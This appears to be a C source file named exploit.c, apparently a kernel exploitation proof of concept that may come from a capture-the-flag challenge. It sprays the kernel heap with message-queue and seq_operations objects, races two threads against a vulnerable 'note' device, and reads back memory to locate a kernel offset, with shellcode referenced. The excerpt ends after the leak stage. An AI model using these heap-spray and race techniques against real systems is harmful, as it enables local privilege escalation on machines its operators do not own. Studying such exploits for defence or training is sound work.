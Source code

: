 ```exploit.c

int main(int argc, char *argv[])
{
  printf("[.] shellcode @ %p\n", shellcode);
  pthread_t writer_thr, zeroer_thr;
  memset(EMPTYNOTE, 'A', MAX_NOTE_SIZE * 2);

  // heap spray
  puts("[.] heap spraying...");
  for (int jx = 0; jx != 0x100; ++jx) {
    int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (qid == -1)
    {
      errExit("msgget");
    }
    struct _msgbuf400 msgbuf = {.mtype = 1};
    memset(msgbuf.mtext, 'A', 0x400);
    KMALLOC(qid, msgbuf, 0x10);
  }
  puts("[.] END heap spraying");

  // init
  if ((fd = open(DEV_PATH, O_RDWR)) < 0)
  {
    errExit("open");
  }
  puts("[.] opened dev file.");

  // alloc seq_operations next to NOTE
  puts("[.] seq spraying...");
  #define SEQSIZE 0x300
  int seq_fds[SEQSIZE];
  for (int ix = 0; ix != SEQSIZE; ++ix)
  {
    if((seq_fds[ix] = open("/proc/self/stat", O_RDONLY)) == -1) {
      errExit("open seq");
    }
  }
  puts("[.] END seq spraying...");

  // first write
  puts("[.] first write");
  assert(write(fd, EMPTYNOTE, MAX_NOTE_SIZE) != -1);

  // init threads
  puts("[.] writer thread initing...");
  assert(pthread_create(&writer_thr, NULL, writer, (void *)0) == 0);
  puts("[.] zeroer thread initing...");
  assert(pthread_create(&zeroer_thr, NULL, zeroer, (void *)0) == 0);

  pthread_join(writer_thr, NULL);

  // leek
  sleep(1);
  char buf[REPEAT * PAGE] = {0};
  sk_seek_zero();
  if (read(fd, buf, REPEAT * MAX_NOTE_SIZE) == -1)
  {
    errExit("read");
  }

  //print_curious(buf, REPEAT * MAX_NOTE_SIZE);
  target_offset = find_signature(buf, REPEAT * MAX_NOTE_SIZE);
```
